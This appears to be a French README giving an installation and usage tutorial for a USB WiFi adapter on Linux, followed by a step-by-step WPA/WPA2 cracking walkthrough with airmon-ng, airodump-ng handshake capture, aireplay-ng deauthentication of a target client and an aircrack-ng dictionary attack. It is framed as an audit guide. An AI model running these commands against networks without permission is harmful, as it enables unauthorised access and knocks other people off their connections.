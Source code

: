 ## Installation
1. Prérequis : 
    - Un système Linux (Ubuntu, Debian, Fedora, etc.).
    - Les droits d'administration (commande sudo).
    - Accès à Internet pour télécharger les pilotes.
    
2. Pilotes :
    - `lsusb` : voir si la carte est reconnu en usb
    - `ip link show` : lister interfaces réseaux

    Si rien n'est affiché, rechercher les pilotes et regarder les logs :
        - Dans ce cas j'utilise une AWUS036ACHM : `dmesg | grep mt7610`
   
## Configurations
1. Fichier manquants pour le firmware : `/lib/firmware/mediatek/`
    - `mt7610u.bin` `mt7610e.bin` sont des fichiers de conf à importer dans `/lib/firmware/mediatek/`
    - `git clone git://git.kernel.org/pub/scm/linux/kernel/git/firmware/linux-firmware.git`

2. Recharger les pilotes 
    - `sudo rmmod mt76x0u`
    - `sudo modprobe mt76x0u`

3. Voir si une erreur est présente : `dmesg | grep firmware`


4. Kill les processus
    - `sudo airmon-ng check kill`
        Effet : Cette commande désactive les services responsables des interférences
        Remarque : Après l'audit, vous pouvez redémarrer ces services pour rétablir la gestion classique des connexions WiFi.

## UP la carte et mode monitor
- `sudo iwconfig // sudo ifconfig` : Montre toutes les interfaces avec les mode des cartes.

- `sudo ifconfig "INTERFACE" down` : Désactive l'interface réseau.
- `sudo iwconfig "INTERFACE" mode monitor` : Active le mode monitor.
- `sudo iwconfig "INTERFACE" mode managed` : Active le mode managed (de base).
- `sudo ifconfig "INTERFACE" up` : Active l'interface réseau.



## COMMANDES
- `sudo airmon-ng start "INTERFACE"` `sudo airmon-ng stop "INTERFACE"` avec `sudo iw "INTERFACE" del`
    But : Active le mode monitor sur l'interface spécifiée.
    Pourquoi : airmon-ng simplifie la gestion du mode monitor et s'assure qu'il n'y a pas de conflit avec d'autres processus.
- `sudo iw dev` pour voir la carte
- `sudo airodump-ng "INTERFACE"`
    But : Affiche une liste des réseaux WiFi détectés.
    Pourquoi : Cela vous permet de repérer le réseau cible et de récupérer son BSSID, son canal (CH) et son nom (ESSID).

- `sudo airodump-ng "INTERFACE" --bssid [BSSID] -c [CHANNEL] -w capture`
    Options détaillées :
        --bssid [BSSID] : Filtre les paquets pour capturer uniquement ceux provenant du point d'accès cible (adresse MAC).
        -c [CHANNEL] : Limite la capture au canal WiFi spécifié.
        -w capture : Enregistre les paquets capturés dans un fichier nommé capture-01.cap.
    Pourquoi : La capture est nécessaire pour récupérer une handshake WPA/WPA2, indispensable pour tenter de casser le mot de passe.

- Lorsqu'une handshake est capturée, vous verrez une ligne similaire à ceci : WPA handshake: [BSSID]
- Si vous ne voyez pas de handshake, cela signifie que :
    Aucun appareil ne s'est connecté ou reconnecté.
    Vous devrez provoquer une déconnexion/reconnexion

- Déconnecter l'appareil avec aireplay-ng
    Une fois que vous avez l'adresse MAC de l'appareil, vous pouvez l'utiliser pour envoyer un paquet de déconnexion (deauth) via aireplay-ng :
    - `sudo aireplay-ng --deauth 10 -a [BSSID] -c [CLIENT_MAC] "INTERFACE"`
        --deauth 10 : Envoie 10 paquets de déconnexion (vous pouvez ajuster ce nombre selon vos besoins). Vous pouvez aussi envoyer un nombre plus élevé pour augmenter les chances de déconnexion.
        -a [BSSID] : L'adresse MAC de l'Access Point (routeur).
        -c [CLIENT_MAC] : L'adresse MAC du client (appareil à déconnecter).
        "INTERFACE" : L'interface WiFi en mode monitor. 
        Important : L'appareil ciblé devrait se déconnecter et tenter une reconnexion automatiquement, ce qui générera une handshake WPA/WPA2.

- Vérifier si il y a bien un handshake 
    - `sudo aircrack-ng file.cap` (1 handshake)
    - `sudo tshark -r file.cap eapol`
    Sinon
    - `sudo wireshark -r file.cap` et chercher des fichier oapol
    - `sudo tshark -r file.cap -Y "eapol && wlan.addr==CLIENT"`



- `sudo aircrack-ng -w [wordlist.txt] -b [BSSID] capture-01.cap`
    Options détaillées :
        -w [wordlist.txt] : Spécifie un fichier contenant une liste de mots de passe possibles.
        -b [BSSID] : Cible le point d'accès spécifié.
        capture-01.cap : Utilise le fichier de capture généré par airodump-ng.
    Pourquoi : Cette étape tente de casser le mot de passe en utilisant une attaque par dictionnaire.


## Restaurer les services après l’audit

Après avoir terminé, redémarrez les services pour reprendre une utilisation normale du WiFi :

- `sudo systemctl restart NetworkManager`
- `sudo systemctl restart wpa_supplicant`
